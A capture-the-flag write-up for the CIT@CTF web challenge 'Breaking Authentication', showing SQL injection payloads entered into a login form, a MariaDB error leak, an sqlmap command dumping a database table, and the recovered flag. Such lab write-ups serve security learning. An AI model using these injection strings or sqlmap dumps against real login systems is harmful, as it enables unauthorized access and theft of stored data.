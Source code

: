```yaml
---
title: "🔐 Breaking Authentication"
date: 2025-04-27 14:30:00 +02:00
categories: [Writeup, "CIT@CTF"]
tags: [CIT@CTF, security, web]
---
```

# Writeup - CIT CTF Challenge: Breaking Authentication

## 📋 Challenge Information
- **Name**: Breaking Authentication
- **Category**: Web
- **Description**: "Say my username."

---

## 🛠️ Solution

After visiting the site, I saw a standard login form.  
I decided to test for SQL Injection vulnerability.

I tried entering the following in the **username** field:
```plaintext
' OR 1=1; --
```
and any password.

![Screen logowania](/assets/img/CIT_CTF/login.png "Login screen")

I got an error about the syntax not being correct.
```plaintext
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '--' AND password='1'' at line 1 in /var/www/html/index.php:23 Stack trace: #0 /var/www/html/index.php(23): mysqli->query('SELECT * FROM u...') #1 {main} thrown in /var/www/html/index.php on line 23
```
I found out that there is a MariaDB database on the server where the comment character is '#' and not '--'.

 tried again with the correction taken into account
```plaintext
' OR 1=1; #
```
![Screen Admin](/assets/img/CIT_CTF/admin.png "Admin Panel")

I managed to log in to the admin panel, but it turned out to be a dead-end road.

The description of chelleng indicates that it is about finding the name of the user for this purpose I used the **sqlmap** tool.

At first using sqlmap I learned that the name of the database is **app**, and then that there are two tables, **users** and **secrets** in it, so at first I dumped the content of secrets table.

```bash
sqlmap -u "http://23.179.17.40:58001/" --forms -D app -T secrets --dump   
```
And there the flag was located

```plaintext
Database: app
Table: secrets
[1 entry]
+--------+-----------------------+
| name   | value                 |
+--------+-----------------------+
| flag   | CIT{36b0efd6c2ec7132} |
+--------+-----------------------+  
```

---

## 🎴 Flag

```plaintext
CIT{36b0efd6c2ec7132}
```
---